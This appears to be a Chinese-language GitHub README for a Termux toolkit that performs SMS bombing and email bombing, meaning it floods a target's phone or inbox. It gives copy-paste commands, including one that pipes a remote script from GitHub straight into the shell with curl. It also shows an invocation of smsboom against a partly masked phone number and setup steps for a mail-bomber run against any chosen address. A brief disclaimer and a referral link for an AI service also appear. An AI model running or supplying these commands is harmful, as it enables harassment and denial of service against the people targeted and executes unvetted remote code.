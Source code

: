 # 概述
  

- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)


- 假如你在代码使用的过程中出现类似于的选项。
>Do you want to continue? [Y/n]
>
- 直接回车enter即可
免费GPT 4o o3 claude 3.7[这里](https://flowith.io/invitation?code=6QTC12)


# 一键代码使用
   ## 短信轰炸
  
  `source <(curl -L https://raw.githubusercontent.com/cat-bucket/cat-osint/main/sms.txt)`
- 直接粘贴代码进入即可，后续可以直接使用下列指令（不要更新接口）

- 基本版
  `cd cat-osint;python easy.py`
  
- 不同参数（同原版smsboom）
  `cd cat-osint;python main.py run -t 64 -p 184****9269 -f 60 `

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git -y && pkg install php -y && pkg install python -y && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber
`
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱




# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令可能造成的事故与损失，短信轰炸并不安全，警遵中国法律。


